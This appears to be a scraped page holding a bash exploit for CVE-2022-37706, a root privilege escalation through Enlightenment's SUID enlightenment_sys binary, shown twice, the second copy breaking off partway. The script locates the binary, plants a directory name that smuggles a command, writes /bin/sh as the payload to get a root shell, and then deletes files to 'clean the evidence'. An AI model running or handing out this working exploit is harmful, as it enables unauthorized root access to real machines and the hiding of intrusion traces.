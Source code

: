 ```sh
---
#!/usr/bin/bash
# Idea by MaherAzzouz
# Development by nu11secur1ty

echo "CVE-2022-37706"
echo "[*] Trying to find the vulnerable SUID file..."
echo "[*] This may take few seconds..."

# The actual problem
file=$(find / -name enlightenment_sys -perm -4000 2>/dev/null | head -1) ←
if [[ -z ${file} ]]
then
        echo "[-] Couldn't find the vulnerable SUID file..."
        echo "[*] Enlightenment should be installed on your system."
        exit 1
fi

echo "[+] Vulnerable SUID binary found!"
echo "[+] Trying to pop a root shell!"
mkdir -p /tmp/net
mkdir -p "/dev/../tmp/;/tmp/exploit"

echo "/bin/sh" > /tmp/exploit
chmod a+x /tmp/exploit
echo "[+] Welcome to the rabbit hole :)"

${file} /bin/mount -o noexec,nosuid,utf8,nodev,iocharset=utf8,utf8=0,utf8=1,uid=$(id -u), "/dev/../tmp/;/tmp/exploit" /tmp///net

read -p "Press any key to clean the evedence..."
echo -e "Please wait... "

sleep 5
rm -rf /tmp/exploit
rm -rf /tmp/net
echo -e "Done; Everything is clear ;)"
---

[...]
```

`vim ./exploit.sh`:
```sh
#!/bin/bash

echo "CVE-2022-37706"
echo "[*] Trying to find the vulnerable SUID file..."
echo "[*] This may take few seconds..."

file=$(find / -name enlightenment_sys -perm -4000 2>/dev/null | head -1)
if [[ -z ${file} ]]
then
	echo "[-] Couldn't find the vulnerable SUID file..."
	echo "[*] Enlightenment should be installed on your system."
	exit 1
fi

echo "[+] Vulnerable SUID binary found!"
echo "[+] Trying to pop a root shell!"
mkdir -p /tmp/net
mkdir -p "/dev/../tmp/;/tmp/exploit"

echo "/bin/sh" > /tmp/exploit
```